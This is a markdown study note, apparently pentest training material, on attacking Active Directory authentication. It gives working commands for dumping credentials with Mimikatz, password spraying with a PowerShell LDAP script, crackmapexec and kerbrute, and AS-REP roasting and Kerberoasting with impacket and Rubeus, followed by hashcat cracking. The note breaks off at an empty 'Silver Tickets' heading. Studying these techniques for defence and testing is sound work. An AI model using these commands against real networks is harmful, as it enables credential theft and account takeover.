







# Attacking Active Directory Authentication

## Active Directory Authentication

1. NTLM Authentication
2. Kerberos Authentication
3. cached AD Credentials

### NTLM Authentication

* used when
  * Connections are made <mark style="color:blue;">using an IP</mark> address instead of a hostname.
  * The domain name <mark style="color:blue;">isn't registered in the domain's DNS</mark>.
  * SPN not available

<figure><figcaption></figcaption></figure>

### [Kerberos Authentication](../it/network-protocol/kerberos.md)


<figure><figcaption></figcaption></figure>

### Cached AD Credentials

* load mimikatz

```
.\mimikatz.exe
```

* enable SeDebugPrivilege&#x20;

```
privilege::debug
```

* dump the credentials of all logged-on users

```
sekurlsa::logonpasswords
```

## Attacks on Active Directory Authentication

### Password spraying Attacks&#x20;

* review the domain’s account policy

```
net acounts
```

* **LDAP / ADSI low-and-slow**


```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString,"pete", "Nexus123!")
```


```powershell
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```

* **second kind of password spraying users SMB**

```sh
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

* **third kind of password spraying attack we’ll  TGT**

```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

### AS-REP Roasting

* to perform this attack, should enable do not require Kerberos **pre-authentication** in user account (target user)


at least should have username in the domain


<figure><figcaption></figcaption></figure>

* get TGT by impacket-GetNPUsers

```sh
impacket-GetNPUsers  -dc-ip 192.168.1.100 -request -outputfile hashes.asreproasting demo.local/abdo.gaber
```

<figure><figcaption></figcaption></figure>

* Crack TGT  hash

```
sudo hashcat -m 18200 hashes.asreproast rockyou.txt --force
```

* another tool in windows

```powershell
PS C:\Tools> .\Rubeus.exe asreproast /nowrap
```

<figure><figcaption></figcaption></figure>

### Kerberoasting

**Attack Steps (conceptual)**

1. **Enumerate SPNs** in the domain (find service accounts with SPNs).
2. **Request a service ticket (TGS)** from the Domain Controller for the targeted SPN.
3. **Extract the encrypted portion** of the returned service ticket (the part protected by the service account’s key).
4. **Crack the encrypted data offline** (dictionary/brute-force) to recover the service account’s plaintext password.

<figure><figcaption></figcaption></figure>


at least should have username and password in the domain


* get TGS by impacket-GetUserSPNs

```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.1.100 demo.local/abdo.gaber
```

<figure><figcaption></figcaption></figure>

* another tool in windows

```
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

<figure><figcaption></figcaption></figure>

### Silver Tickets

